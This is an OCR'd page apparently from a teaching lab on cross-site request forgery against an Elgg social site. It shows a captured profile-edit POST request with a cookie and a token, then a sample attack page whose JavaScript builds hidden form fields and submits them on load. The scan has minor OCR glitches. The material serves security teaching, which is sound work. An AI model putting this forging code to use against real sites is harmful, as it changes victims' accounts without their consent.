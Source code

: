 ```
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.seed-server.com/profile/elgguser1/edit
Cookie: Elgg=p0dci8baqrl4i2ipv2mio3po
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 642
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&__elgg_ts=1403464813 P
&name=elgguser1&description=%3Cp%3Iamelgguser1%3C%2Fp%3E
&accesslevel%5Bdescription%5D=2&briefdescription= Iamelgguser
&accesslevel%5Bbriefdescription%5D=2&location=US
...... P
```
After understanding the structure of the request, you need to be able to generate the request from your
attacking web page using JavaScript code. To help you write such a JavaScript program, we provide a
sample code in the following code fence. You can use this sample code to construct your malicious web site
for the CSRF attacks. This is only a sample code, and you need to modify it to make it work for your attack.
```
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>


<script type="text/javascript">

function forge_post()
{
    var fields;


    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won’t be able to see them.
    fields += "<input type=’hidden’ name=’name’ value=’****’>";
    fields += "<input type=’hidden’ name=’briefdescription’ value=’****’>";
    fields += "<input type=’hidden’ name=’accesslevel[briefdescription]’
                                    value=’2’>"; ¿
    fields += "<input type=’hidden’ name=’guid’ value=’****’>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```